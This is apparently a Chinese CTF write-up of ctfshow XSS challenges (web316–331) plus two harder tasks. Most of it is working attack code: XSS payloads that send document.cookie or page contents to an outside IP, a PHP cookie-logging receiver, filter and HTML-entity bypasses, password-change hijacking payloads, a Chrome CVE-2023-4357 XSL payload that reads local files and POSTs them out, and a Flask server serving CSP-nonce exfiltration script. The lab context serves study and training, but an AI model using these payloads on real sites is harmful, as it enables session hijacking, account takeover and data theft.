


## web316

反射的xss。

```
<script>alert("1")</script>
<script>location.href="http://47.96.41.103/test.php?cookie="+document.cookie</script>
```

网站上面的记录token的代码

```php
<?php
	$cookie = $_GET['cookie'];
	$time = date('Y-m-d h:i:s', time());
	$log = fopen("cookie.txt", "a");
	fwrite($log,$time.':    '. $cookie . "\n");
	fclose($log);
?>
```

## web317

过滤了script

```


 

```


## web318

```
<iframe/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;></iframe>
<body onload="document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie"></body>
```


## web320

过滤了script，img，空格

空格可以用`%09`、`tab`、`/`、`/**/`代替。

```
<body/onload=alert("xss");>

<body/**/onload="document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie"></body>
<body/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;>
<iframe/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;></iframe>
```

还有一种巧妙姿势

String.fromCharCode()函数：ascii码转字符

```python
input_str = input("请输入字符串: ")  # 获取用户输入的字符串
ascii_list = []

# 遍历字符串，将每个字符转换为ASCII码，并添加到列表中
for char in input_str:
    ascii_code = ord(char)  # 使用ord()函数获取字符的ASCII码
    ascii_list.append(str(ascii_code))  # 将ASCII码转换为字符串并添加到列表

# 将列表中的ASCII码用逗号隔开，并打印结果
result = ','.join(ascii_list)
print("转换后的ASCII码:", result)
```

另一种是实体编码绕过

```
<iframe/srcdoc=&#60;&#105;&#102;&#114;&#97;&#109;&#101;&#47;&#111;&#110;&#108;&#111;&#97;&#100;&#61;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#104;&#114;&#101;&#102;&#61;&#39;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#52;&#55;&#46;&#57;&#54;&#46;&#52;&#49;&#46;&#49;&#48;&#51;&#47;&#116;&#101;&#115;&#116;&#46;&#112;&#104;&#112;&#63;&#99;&#111;&#111;&#107;&#105;&#101;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;&#62;&#60;&#47;&#105;&#102;&#114;&#97;&#109;&#101;&#62;>
```

实体编码转换脚本

```
def string_to_html_entities(input_str):
    html_entities = [f'&#{ord(char)};' for char in input_str]
    result = ''.join(html_entities)
    return result

input_str = input("请输入字符串: ")
html_entities_result = string_to_html_entities(input_str)
print("HTML实体编码:", html_entities_result)
```


## web328

注册的时候密码填如下。服务器就能收到admin的cookie

```
<script>window.open('http://47.96.41.103:9856?cookie='+document.cookie)</script>
```

然后登录改cookie即可变成admin


## web329

用上面依旧能拿到cookie。但是替换cookie就失效了。

我们现在关键就是带出这个flag了。这个flag就是存储在密码上面。

可以通过类名查找元素，通过document来获取。

可以通过下面代码获取这个密码字段

```
document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML
```

这里是用328做演示



这样我们就可以使用下面的paylaod去把这个题的flag带出来了

```
<script>window.open('http://47.96.41.103:9856/?a='+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```

第二种方法

上一个方法已知我们要获取的数据对应的类名字是layui-table-cell laytable-cell-1-0-1。（中间有空格表示这里有两个类，对应表格里面

这里我们可以只读一个，也可以都读。都读的话.layui-table-cell.laytable-cell-1-0-1，只读一个的话.laytable-cell-1-0-1。

```javascript
$('.laytable-cell-1-0-1').each(function(index,value){
	console.log(value);
});
```

拿flag的payload

```
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctfshow{')>-1){window.location.href='http://47.96.41.103:9856/?a='+value.innerHTML;}});</script>
```


第三种方法

```
document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent
```

上面paylaod一层层往下取酒能取到这个敏感内容的地方


最后我们拿flag的payload如下

```
<script>var img = new Image();img.src = "http://47.96.41.103:9856/"+document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;document.body.append(img);</script>
```


## web330

多了一个更改密码的地方。我们可以xss，让admin自己跳转到改密码的路由把自己密码改了我们再登录上去

```
<script>window.location.href='http://127.0.0.1/api/change.php?p=123123';</script>
```


## web331

这次的改密码是post请求的。用下面payload修改

```
<script>$.ajax({url:"api/change.php",method:"POST",data:{'p':'123123'}})</script>
```


## XSS提高

### xssbot

看代码意思就是我写一个文件进去。然后他里面起一个http的web服务器，然后自己去访问我们写进去的那个页面。

然后用来访问的是谷歌的浏览器

我们直接搜谷歌的cve打就行了。能任意读文件的

https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE/blob/main/d.svg?short_path=bd1a60d

最后的payload

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
  <!ENTITY passwd_p        "file:///flag">
  <!ENTITY passwd_c SYSTEM "file:///flag">
]>   
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <div style="display:none">
        <p class="&passwd_p;">&passwd_c;</p>
      </div>
      <div style="width:40rem" id="r" />
      <script>
        var element = document.querySelector('p');
    var passwd_p = element.className;
    var passwd_c = element.textContent;
const url = 'http://43.143.192.19:1145';
const formData = new URLSearchParams();
formData.append('key1', passwd_p);
formData.append('key2', passwd_c);

fetch(url, {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: formData
})
  .then(response => {
    if (!response.ok) {
      throw new Error('Network response was not ok');
    }
    return response.json();
  })
  .then(data => {
    console.log(data);
  })
  .catch(error => {
    console.error('Error:', error);
  });


      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```


### WebBuilder

一系列需要绕过。直接在服务器起一个flask

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/test', methods=['GET'])
def test():
    name = request.args.get('name')

    # 检查是否提供了 name 参数
    if not name:
        return jsonify(error='Name parameter is missing.'), 400

    # 构建返回的 JSON 数据
    responseData = {
        'len': 15,
        'code': 200  # 获取当前时间戳
    }

    # 设置响应头的 Content-Type 为 application/json
    return jsonify(responseData)

@app.route('/redirect', methods=['GET'])
def redirect_route():
    # 返回状态码为 302 的响应
    return jsonify(), 302, {'Location': 'http://47.96.41.103:3000/success'}

@app.route('/success', methods=['GET'])
def success_route():
    # Additional logic for /success route if needed
    return 'Success Route'

# 新加的 /js 路由
@app.route('/js', methods=['GET'])
def js_route():
    return """
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>CSP with Nonce Example</title>
  <!-- 将生成的 nonce 值传递到前端脚本 -->
  <script>
    const nonce = 'XssFun';  // 这里替换为实际的 nonce
  </script>
  <!-- 在 script 标签中使用 nonce -->
  <script nonce="XssFun">
    // 在这里执行你的 JavaScript 代码，例如访问本地 /flag 路由并获取回显
    
    fetchData()
    
    // 定义获取数据的函数
    async function fetchData() {
      try {
        const response = await fetch('http://127.0.0.1:8080/flag');
        const data = await response.text();  // 使用 text() 获取字符串形式的响应
        location.href="http://wli9jb94.requestrepo.com/?data="+encodeURIComponent(data)
        

      


        
        
      } catch (error) {
        console.error('Error fetching data:', error);
      }
    }
    
  </script>
</head>
<body>
  <!-- 在此可以添加其他 HTML 内容 -->
</body>
</html>
    """

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=3000)

```

然后不断地爆破。知道出现长度是260的。就有uuid返回


再去触发就行



flag就会被带出来了


